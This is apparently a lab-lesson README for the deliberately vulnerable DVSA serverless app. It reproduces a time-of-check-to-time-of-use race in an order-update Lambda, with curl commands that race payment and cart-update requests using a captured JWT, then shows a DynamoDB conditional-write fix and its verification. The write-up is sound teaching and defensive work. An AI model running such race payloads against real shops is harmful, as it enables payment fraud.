# Lesson 8: Logic Vulnerabilities

## How to Use This Folder

1. Read this README from top to bottom.
2. Follow the reproduction steps in Section 5 using a fresh order.
3. Compare your results with the screenshots in the `evidence/` folder.
4. Review the vulnerable code path in Section 8.
5. Apply the atomic DynamoDB fix shown in Section 8.
6. Repeat the verification steps in Section 9 to confirm the race condition is removed.

> **Important:** Perform these steps only in the authorized DVSA lab environment or another environment where you have permission to test.

A helper script is included as `race_condition_test.sh`. The script is sanitized and uses environment variables for the API endpoint, JWT token, and order ID so no real token is committed to the repository.

The `payloads/` folder contains reusable JSON request examples, and the `snippets/` folder contains copy/paste commands and code snippets for the vulnerable and fixed logic.

---

## 1. Vulnerability Summary

This lesson demonstrates a **Logic Vulnerability** in the DVSA order workflow. The specific issue is a **Time-of-Check to Time-of-Use (TOCTOU) race condition** in the `DVSA-UPDATE-ORDER` Lambda function.

The affected update logic checks whether an order is still editable, then later writes the new cart items. Because the check and write are separate operations, another request can complete payment in the short time gap between them.

As a result, an attacker can create an inconsistent order state:

- The order is paid based on the original cart.
- The cart is updated after payment processing begins.
- DynamoDB stores an `itemList` that no longer matches the paid `totalAmount`.

The impact is financial fraud. A user can pay for one item but modify the order to contain a higher quantity after the payment state has already been finalized.

---

## 2. Root Cause

The vulnerability exists because the order update logic performs the security check and the database update as separate actions.

The vulnerable pattern is:

```text
get_item  ->  check orderStatus in Python  ->  update_item
```

This creates a race window. If another Lambda invocation changes the same order between the check and the update, the first invocation continues using stale information.

### Why the attack works

DynamoDB supports atomic conditional writes using `ConditionExpression`, but the vulnerable code does not use that feature. Instead, the application checks `orderStatus` in application memory before writing the new `itemList`.

When two requests run concurrently:

1. The update request reads `orderStatus = 100` and decides the order is still editable.
2. A payment-complete request changes the order to processed or paid.
3. The original update request continues and writes the new cart anyway.

The root cause is a non-atomic check-then-write design. The intended business rule is that paid orders must be immutable, but the rule is enforced only in application logic instead of being enforced atomically by the database.

---

## 3. Environment

| Item | Value |
|---|---|
| Application | DVSA |
| AWS Region | `us-east-1` |
| AWS Account | `716563790099` |
| Website URL | `http://dvsa-website-716563790099-us-east-1.s3-website.us-east-1.amazonaws.com/` |
| API Endpoint | `POST https://js3mne2i34.execute-api.us-east-1.amazonaws.com/Stage/order` |
| Affected Function | `DVSA-UPDATE-ORDER` |
| Related Function | `DVSA-ORDER-COMPLETE` |
| Vulnerable File | `update_order.py` |
| Backend Table | `DVSA-ORDERS-DB` |
| Main Services | API Gateway, AWS Lambda, DynamoDB |
| Tools Used | Browser DevTools, AWS CloudShell, AWS CLI, Lambda Console, DynamoDB Console, `curl`, `jq` |

**Evidence - API endpoint:**



---

## 4. Prerequisites

Before starting:

1. Have access to the authorized DVSA lab environment.
2. Have a normal authenticated DVSA user account.
3. Have access to Browser DevTools to capture the authorization token and order ID.
4. Have AWS CloudShell or a terminal with `curl` available.
5. Have access to DynamoDB or AWS CLI to verify the final database state.
6. Use a fresh order for each test attempt.

**Estimated time to reproduce:** 10-20 minutes depending on timing and whether the race succeeds on the first attempt.

---

## 5. Step-by-Step Reproduction

### Step 1: Create a Fresh Order

1. Log in to the DVSA website as a normal user.
2. Add one item to the cart.
3. Continue through checkout and shipping.
4. Stop on the payment page, but do not click **Submit/Pay** yet.

At this point, the order exists in DynamoDB and should still be editable.

**Evidence - item added to cart:**



---

### Step 2: Capture the Order ID and Authorization Token

1. Open Browser DevTools.
2. Go to the **Network** tab.
3. Find an `order` request.
4. Capture the fresh `order-id`.
5. Capture the normal user `Authorization` JWT token.

Use the token only in the authorized lab environment.

**Evidence - order ID captured from DevTools:**



---

### Step 3: Configure CloudShell Variables

Open AWS CloudShell and set the API endpoint, token, and order ID:

```bash
export TOKEN="<normal-user-jwt-token>"
export API="https://js3mne2i34.execute-api.us-east-1.amazonaws.com/Stage/order"
export ORDER_ID="<fresh-order-id>"
```

The screenshot shows the same setup with the token redacted.

**Evidence - CloudShell variables configured:**



---

### Step 4: Run the Race Condition Payload

The helper script in this folder can be used after setting the variables above:

```bash
chmod +x race_condition_test.sh
./race_condition_test.sh
```

The core idea is to send a payment-complete request and a cart-update request close together:

```bash
printf '{"action":"complete","order-id":"'$ORDER_ID'"}' > /tmp/lesson8-pay.json
printf '{"action":"update","order-id":"'$ORDER_ID'","items":{"1014":5}}' > /tmp/lesson8-update.json

curl -s -X POST "$API" \
  -H "Content-Type: application/json" \
  -H "authorization: $TOKEN" \
  --data-binary @/tmp/lesson8-pay.json > /tmp/pay-result.txt &

sleep 0.05

curl -s -X POST "$API" \
  -H "Content-Type: application/json" \
  -H "authorization: $TOKEN" \
  --data-binary @/tmp/lesson8-update.json > /tmp/update-result.txt &

wait

echo "Pay result:    $(cat /tmp/pay-result.txt)"
echo "Update result: $(cat /tmp/update-result.txt)"
```

In the original test, this terminal-side race was coordinated with the browser payment click to make the payment and update requests overlap.

---

### Step 5: Observe the Exploit Result

A successful race produces a result similar to this:

```json
Pay result:    {"status":"err","msg":"order was already processed"}
Update result: {"status":"ok","msg":"cart updated"}
```

This shows that the system had already started processing the order, but the cart update still succeeded.

**Evidence - race condition exploit output:**



---

### Step 6: Confirm the Order Was Processed

Use the API to list orders and confirm that the target order appears as processed.

**Evidence - order appears processed:**



---

### Step 7: Verify the Corrupt State in DynamoDB

Query `DVSA-ORDERS-DB` and inspect the target order.

The exploit is confirmed when DynamoDB shows that the processed order contains the modified item quantity even though payment was based on the earlier cart state.

**Evidence - DynamoDB shows modified itemList after payment:**



---

## 6. Attack Result Summary (Before Fix)

| What was attempted | Result |
|---|---|
| Create a fresh order with one item | Succeeded |
| Trigger payment completion and cart update concurrently | Succeeded |
| Update `itemList` after payment processing began | Succeeded |
| Create inconsistent paid order state | Confirmed in DynamoDB |
| Business impact | User can pay for one cart state while receiving a different cart state |

The key evidence is that the system accepted a cart update even though the order was already being finalized. This violates the rule that paid or processed orders must not be modified.

---

## 7. Fix Strategy

The fix is to make the status check and the write operation atomic.

Instead of relying only on a Python `if` statement before the update, the Lambda function must attach a DynamoDB `ConditionExpression` to the `update_item` call.

The condition should require that the order is still mutable at the exact moment the write commits:

```text
ConditionExpression="orderStatus <= :maxStatus"
```

If another request has already moved the order into a paid or processed state, DynamoDB rejects the update atomically with `ConditionalCheckFailedException`.

This removes the race window because the database enforces the rule at write time.

---

## 8. Code / Config Changes

**Location:** Lambda function `DVSA-UPDATE-ORDER` — file `update_order.py`

### Before Fix

The vulnerable code checks `orderStatus` before the update, but the update itself has no database-level condition. This means another request can change the order status after the check and before the write.

**Evidence - vulnerable update logic:**



### After Fix

The fixed code adds a DynamoDB `ConditionExpression` to the `update_item` call and handles `ConditionalCheckFailedException` safely.

Example secure pattern:

```python
try:
    table.update_item(
        Key={
            "orderId": orderId,
            "userId": userId
        },
        UpdateExpression="SET #itemList = :itemList",
        ExpressionAttributeNames={
            "#itemList": "itemList"
        },
        ExpressionAttributeValues={
            ":itemList": itemList,
            ":maxStatus": 110
        },
        ConditionExpression="orderStatus <= :maxStatus"
    )
except client.exceptions.ConditionalCheckFailedException:
    return {
        "status": "err",
        "msg": "order already paid"
    }
```

**Evidence - atomic update fix using ConditionExpression:**



**Summary of changes:**

- Added `ConditionExpression` to the DynamoDB `update_item` call.
- Kept the early application-level check as a fast-path validation.
- Added exception handling for failed conditional writes.
- Preserved the user-facing error message: `order already paid`.

---

## 9. Verification After Fix

After deploying the fix, a fresh order was created and the same race condition test was repeated.

### Expected Secure Behavior

If payment completes first, the update must fail:

```json
{"status":"err","msg":"order already paid"}
```

If the update completes first, the final total and item list must match the updated cart. In both cases, DynamoDB should end in a consistent state.

| Scenario | Payment Result | Update Result | DynamoDB State |
|---|---|---|---|
| Payment completes first | Order becomes paid/processed | `err`, `order already paid` | Quantity and total remain consistent |
| Update completes first | Payment uses updated cart | `ok`, `cart updated` | Quantity and total remain consistent |

**Evidence - update rejected after fix:**



**Evidence - DynamoDB remains consistent after fix:**



The corrupt state could no longer be reproduced after the conditional write was added.

---

## 10. Security Analysis

### Intended Logic

The order system must enforce this rule:

```text
Once an order is paid or processed, the itemList must not change.
```

A normal sequential checkout should keep `itemList`, `totalAmount`, and `orderStatus` consistent.

---

### Table 1 - Intended vs. Observed Behavior

| Vulnerability | Intended Rule(s) | Artifacts Used | Normal Behavior Evidence | Exploit Behavior Evidence |
|---|---|---|---|---|
| TOCTOU Race in Order Update | Once `orderStatus > 110`, `itemList` must not change. `totalAmount` and `itemList` must always describe the same cart. | `update_order.py`, `order_complete.py`, browser flow, terminal output, DynamoDB query, HTTP responses | Sequential checkout produces consistent orders. Calling update after completion should return `order already paid`. | Concurrent payment and update requests allow `Update result: ok` even while payment is processed. DynamoDB shows the cart was modified after payment logic began. |

---

### Table 2 - Deviation Analysis and Fix

| Vulnerability | Why This Is a Deviation | Deviation Class | Fix Applied | Post-Fix Verification | Latency |
|---|---|---|---|---|---|
| TOCTOU Race in Order Update | The paid-order immutability rule was implemented as a non-atomic read-then-write. Concurrent Lambda invocations could interleave and commit a state that should not be possible in a sequential flow. | Intentional misuse / security-relevant abuse | Added DynamoDB `ConditionExpression="orderStatus <= :maxStatus"` in `update_order.py` and handled `ConditionalCheckFailedException`. | Re-running the race on a fresh order produces only consistent outcomes. The post-payment cart corruption could not be reproduced. | Not required |

---

## 11. Lessons Learned

Application-level checks are not enough when shared data can be modified by concurrent requests. In serverless applications, multiple Lambda invocations can run at the same time by default, so business rules that protect shared data must be enforced atomically.

The main lesson is that important invariants belong in the data layer, not only in application branches. For DynamoDB, this means using conditional writes, optimistic locking, or transactions when a write depends on the current state of the item.

For this lesson, the intended invariant was simple: once an order is paid, the cart must not change. The vulnerable code checked that rule before writing, but the database did not enforce it. The fixed version moves the rule into the write operation itself, which closes the race window and preserves order integrity.

---

## Repository Structure

```text
lesson8_logic_vulnerabilities/
│
├── README.md
├── race_condition_test.sh
├── evidence/
│   ├── figure49_api_endpoint.png
│   ├── figure50_add_item_to_cart.png
│   ├── figure51_network_order_id_capture.png
│   ├── figure52_cloudshell_variables_redacted.png
│   ├── figure53_54_race_script_and_exploit_output.png
│   ├── figure55_orders_response_processed.png
│   ├── figure56_dynamodb_modified_itemlist.png
│   ├── figure57_vulnerable_update_order_code.png
│   ├── figure58_59_atomic_condition_expression_fix.png
│   ├── figure60_post_fix_update_rejected.png
│   ├── figure61_post_fix_dynamodb_consistent_itemlist.png
│   └── lesson8_contact_sheet.jpg
├── payloads/
│   ├── complete_request.json
│   ├── update_cart_quantity_request.json
│   └── orders_list_request.json
└── snippets/
    ├── 01_environment_variables.sh
    ├── 02_manual_race_commands.sh
    ├── 03_dynamodb_verification.sh
    ├── vulnerable_update_order_snippet.py
    └── fixed_update_order_condition_expression.py
```
